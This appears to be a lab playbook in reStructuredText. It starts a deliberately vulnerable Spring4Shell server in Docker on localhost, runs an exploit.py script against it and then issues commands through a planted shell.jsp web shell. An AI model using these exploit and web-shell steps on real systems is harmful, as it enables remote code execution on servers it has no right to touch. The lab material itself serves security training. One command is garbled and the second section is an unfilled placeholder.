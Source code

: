 Threat Stack Playbooks
=====================================

Spring4Shell Playbook
---------

First, Access the Linux Ubuntu 20.04 LTS Box via WebShell.

.. image:: _static/UbuntuWebshell.png

Next, navigate to the spring4shell directory by entering the following command:

.. code-block::
   
   cd spring4shell
   
.. image:: _static/CDDirectoryCommand.png


Next, to spin up the vulnerable Spring server, run the following command: 


.. code-block::
   docker run -p 80:8080 spring4shell
   
   
after you run the command, you should see the following screen.

.. image:: _static/Spring4ShellScreen.png


Go back to UDF and start the linux host again. Then run the following command

.. code-block::
   
   curl localhost: curl localhost/helloworld/greeting
   
   
The following output should manifest.

.. image:: _static/CurlOutput.png


Now to exploit, run the following command in the spring4shell directory.

.. code-block::
   
   python3 exploit.py --url 'http://localhost/helloworld/greeting'
   
The following output should manifest.

.. image:: _static/CurlOutput2.png
   
Now run the following command via shell


.. code-block::
   
   curl http://localhost/shell.jsp?cmd=pwd --output -
   
   
.. note::
   
   Run the --output flag as this is required for the output to display



Section 2
---------

Fill in here
